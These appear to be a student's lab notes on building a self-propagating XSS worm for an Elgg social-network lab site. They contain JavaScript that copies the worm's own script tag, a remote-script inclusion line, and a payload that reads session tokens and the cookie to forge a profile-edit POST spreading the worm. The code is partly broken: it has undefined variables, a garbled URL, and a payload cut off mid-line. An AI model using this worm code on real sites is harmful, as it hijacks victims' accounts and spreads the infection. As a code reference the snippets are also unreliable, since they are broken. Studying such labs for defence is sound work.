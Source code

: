 
1. **ID/DOM Approach**:
- If the entire JavaScript program (worm) is embedded in the infected profile
- the worm code can use `DOM APIs` to retrieve a copy of itself from the web page.
- This code gets a copy of itself, and display it in an alert window:


```js
// if f the entire JavaScript program (i.e., the worm) is embedded in the infected profile
// to propagate the worm to another profile
// the worm code can use DOM APIs to retrieve a copy of itself from the web page.
<script id="worm" type="text/javascript">
    var badCode = document.getElementById("worm");
    alert(badCode.innerHTML);
    

    // innerHTML only gives us the inside part of the code, var copy = document.getElementById("worm").innerHTML;
    var header = "<script id=\"worm\" type=\"text/javascript\" >";
    var tail = "</" + "script>";
    var wormCode = encodeURIComponent(header+copy+tail);
    alert(jsCode);


    // construct a copy of itself
    var selfProp = "<script id=\"worm\" type=\"text/javascript\" >".concat( document.getElementById("worm").innerHTML ).concat("</").concat("script>");

</script>
```

2. **Src/Link Approach**:
- If the worm is included using the `src` attribute in the `<script>` tag
- can simply copy the `<script>` tag to the victim’s profile, essentially infecting the profile with the same worm.

```js
<script type="text/javascript" src="http网站//example.com/xss_worm.js">
</script>
```

1. example

```js
<script id="worm" type="text/javascript">

var selfProp = "<script id=\"worm\" type=\"text/javascript\" >".concat(document.getElementById("worm").innerHTML).concat("</").concat("script>");

var sendurl="http://www.xsslabelgg.com/action/profile/edit";
var ts=elgg.security.token__elgg_ts;
var token=elgg.security.token.__elgg_token;

ff=new XMLHttpRequest();
ff.open("POST",sendurl,true);
ff.setRequestHeader("Host","www.xsslabelgg.com");
ff.setRequestHeader("Keep-Alive","300");
ff.setRequestHeader("Connection","keep-alive");
ff.setRequestHeader("Cookie",document.cookie);
ff.setRequestHeader("Content-Type","application/x-www-form-urlencoded");

ff.setRequestHeader("Referer","http://www.xsslabelgg.com/profile/".concat(elgg.session.user["username"]).concat("/edit"));

params = "__elgg_ts=".concat(ts)
         .concat("&__elgg_token=").concat(token)
         .concat("&description=User-11-is-great")
         .concat(escape(selfProp))
```